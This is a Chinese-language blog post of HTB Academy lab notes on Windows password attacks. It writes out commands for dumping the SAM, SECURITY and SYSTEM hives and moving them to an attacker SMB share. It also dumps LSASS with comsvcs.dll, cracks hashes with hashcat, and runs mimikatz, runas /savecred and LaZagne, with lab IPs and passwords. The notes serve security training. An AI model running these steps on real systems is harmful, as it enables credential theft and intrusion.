# htb academy笔记-module-Password Attacks（四）

> 原创 已于 2025-11-27 15:17:39 修改 · 公开 · 889 阅读 · 23 · 21 · CC 4.0 BY-SA版权 版权声明：本文为博主原创文章，遵循 CC 4.0 BY-SA 版权协议，转载请附上原文出处链接和本声明。
> 文章链接：https://blog.csdn.net/weixin_51439723/article/details/154847678

上一篇： [htb academy笔记-module-Password Attacks（三）](https://blog.csdn.net/weixin_51439723/article/details/153312795) 

##  **一、Attacking SAM, SYSTEM, and SECURITY** 

###  **1. Registry hives** 

如果我们有administrator的权限，有三种registry hives可以直接拉出来：

- HKLM\SAM:有本地用户账户密码的hashes，可以提取出来crack成明文

- HKLM\SYSTEM:有用来加密SAM数据库的系统启动key。解密hash需要这个key

- HKLM\SECURITY:有LSA的敏感信息，包括cach中的domain credentials(DCC2)、明文密码、DPAPI kyes等

**A. 用reg.exe来备份上述hives** 

以administractive权限打开cmd：

reg.exe save hklm\sam c:\sam.save

reg.exe save hklm\system c:\system.save

reg.exe save hklm\security c:\security.save

####  **B. 转移：smbserver建一个share** 

用如下命令：

sudo python3/usr/share/doc/python3-impacket/examples/smbserver.py-smb2supportCompData/home/ltnbob/Documents/

其中-smb2support是为了同时也支持新版smb，有些新版windows只支持这个； CompData是我们指定的share名字，后面跟着的是hives即将储存的路径。

####  **C. 执行转移** 

move sam.save \\[myip]\CompData

###  **2. 用secretsdump 拿hashes** 

python3/usr/share/doc/python3-impacket/examples/secretsdump.py-sam sam.save-security security.save-system system.save LOCAL

其中LOCAL表示这个拿hash的过程不联网

 

可以看出拿到了本地SAMhashes、cached域名logon信息、LSA secrets如user key for DPAPI

DumpinglocalSAM hashes(uid:rid:lmhash:nthash)

这行说明了下面hash的格式，大部门现代系统用nthash，老的电脑如win Vista、win server2008用lm hash，这种更容易crack

###  **3. 用hashcat来crack hash** 

先把上述hash提出来放到文件里：

 

然后

sudo hashcat-m1000hashestocrack.txt/usr/share/wordlists/rockyou.txt

其中-m 1000就是NT hash。结果：

 

可以看到四个里面crack到了三个

###  **4. DCC2 hashes** 

hklm\security包含的cached域名登录信息中，有一种为DCC2 hashes，这是网络credential的本地copy，长这样：

inlanefreight.local/Administrator:$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25

crack:

hashcat-m2100'$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25'/usr/share/wordlists/rockyou.txt

 

-m是2100。

这种比NT hashed难crack，因为使用PBKDF2。可以看到speed是5536 H/s.在同一台常规机器NT hash的crack速度可以到4605.4 kH/s，要慢800倍。所以是强密码的话短时间内crack不出来。

###  **5. DPAPI** 

即Data Protection API, 是微软里用来加解密数据的一系列APIs，被自己以及第三方使用：

- IE: 加解密网站上自动保存的账号和密码

- chrome：同上

- outlook：加解密账户的密码

- Remote Desktop Connection：加解密远程连接用的credetials

- Credential Manager：加解密访问共享资源、连wifi、VPN的credentials等。

被其加密的信息可以用内置的根据dpapi, mimikatz手动解密，或远程用DonPAPI:

 

### 6. **远程dumping&LSA Secret的注意事项** 

####  **A. LSA Secret** 

有administration密码后我们能实现获得LSA secrets（即进行一些网络服务、计划的tasks时需要的credentials等信息）。

netexec smb10.129.42.198--local-auth-u bob-p HTB_@cademy_stdnt!--lsa

 

####  **B. 远程dump SAM** 

同上：

 

##  **二、Attacking LSASS** 

LSASS是执行安全policy、用户auth、把一些敏感credentials存储在memory里的核心进程：

 

在上述logon的过程中，LSASS会：

- 把credentials cache到memory里

- 生成访问tokens

- 执行安全policies

- 写入安全日志

###  **1. dump LSASS的进程memory** 

我们也优先把相关memory先提取出来然后再crack，这样风险低、可操作。方法有很多，这里我们用windows内置工具进行。

####  **A. 任务管理器** 

能图形化交互时打开任务管理器，然后：

 

找到LSA Process右键create dump file，会在%tmp%里生成lsass.dump。然后用上章的方法传出来

####  **B. Rundll32.exe & Comsvcs.dll** 

rundll32.exe是命令行工具，需要注意的是很多anti-virus会检测这个行为。

再这之前，必须先找到LSASS的PID

####  **C. 用cmd找LSASS的PID** 

tasklist/svc

 

672

####  **D. 用PowerShell找LSASS的PID** 

Get-Processlsass

 

672

####  **E. 用PowerShell生成dump文件** 

rundll32 C:\windows\system32\comsvcs.dll,MiniDump672C:\lsass.dmp full

运行rundll32.exe来调用外部的comsvcs.dll函数，然后调用MiiDump功能来dump这个进程的memory

###  **2. 用Pypykatz提取credentials** 

pypykatz lsa minidump/home/peter/Documents/lsass.dmp

其中minidump是指明前面命令的数据来源

运行后会输出

####  **A. MSV** 

 

MSV是LSA调用，用来和SAM数据库比对logon密码的auth pack。包含SID、用户名、域名、对应密码的NT&sha1 hash。

####  **B. WDIGEST** 

 

是win xp-8&WinServer 2008-2012使用的老式auth协议，此时LSASS 以明文cache credentials，能直接查看。所以处于安全考虑现代os默认禁用，一些没有默认禁用的在更新系统后也可能禁用

####  **C. Kerberos** 

 

Kerberos是windows域名环境中AD用的auth协议。

域中的每个account会给一个AD中的ticket，kerberos根据这些ticket来决定他们能在共享share中访问什么资源，就不用每次都输credentials。LSASS会caches和kerberos相关的密码、ekes、tickets和pins，所以若能从中提取则可以访问用域中的其他系统。

####  **D. DPAPI** 

 

Mimikatz和Pypykatz可以提取出logon用户数据在该memory里的DPAPI masterkey，可以用来解密secret(因为该用户的application使用了DPAPI)，然后获取不同账号的credentials

##  **三、Attacking Windows Credential Manager** 

###  **1. Windows Vault and Credential Manager** 

Credential Manager是自从win server 2008 R2/win7后有的内置功能，credentials在以下路径加密保存：

%UserProfile%\AppData\Local\Microsoft\Vault\

%UserProfile%\AppData\Local\Microsoft\Credentials\

%UserProfile%\AppData\Roaming\Microsoft\Vault\

%ProgramData%\Microsoft\Vault\

%SystemRoot%\System32\config\systemprofile\AppData\Roaming\Microsoft\Vault\

每个vault文件夹都有一个policy.vpol文件，其中有被DPAPI保护的AES keys，这些keys用来加密credentials。更新版本的windows用Credential Guard把他们保存在secured memory enclaves来进一步保护。

微软把被保护的stores(存储区)叫Credential Lockers(正式一点叫Windows Vaults)。Credential Manager只是一个API，真正加密的stores是locker的文件夹，有两种：

- Web Credentials: web相关的，该locker被IE或Edge使用

- Windows Credentials：针对如Onedirve, 域名用户，本地资源、服务等的credentials

 

通过控制面板或下面的cmd命令来把Windows Vaults转换成.crd是可行的:

rundll32 keymgr.dll,KRShowKeyMgr

 

这里的备份需要user自己提供密钥，然后可在其他win系统上导入

###  **2. 用cmdkey列举credentials** 

cmdkey/list

 

·   target: 这个credential用在哪

- type: Generic就是平平无奇的类型

- Persistence：标识是否在电脑上一直保存，标了Local machine persistence的在重启后还存在

第一个entry可以看到用户id乱起的，这种是内部账户没太多利用价值。

第二个entry是SRV01\mcharles的credential，遇到这种我们可以直接：

runas/savecred/user:SRV01\mcharles cmd

 

 

###  **3. 用mimikatz提取credentials** 

这里我们用它的sekurlsa功能

mimikatz.exe

privilege::debug

sekurlsa::credman

 

###  **4. exercise** 

靶机里面没有工具，这里我们用xfreerdp连接时可以同时建立一个本地和远端的共享文件夹：

xfreerdp3/v:10.129.234.171/u:sadams/p:totally2brow2harmon@/drive:share,[local path]

进去后可以在windows里看到这个文件夹并穿工具：

 

一开始穿前文中的mimikatz，但是运行后发现这个需要管理员权限才能提取到密码，所以我们换成LaZagne，这个对权限要求小很多：

LaZagne.exe all

发现还没有出来，于是用前面的

runas/savecred/user:SRV01\mcharles cmd

转到另一个账号后，在运行，密码出来了。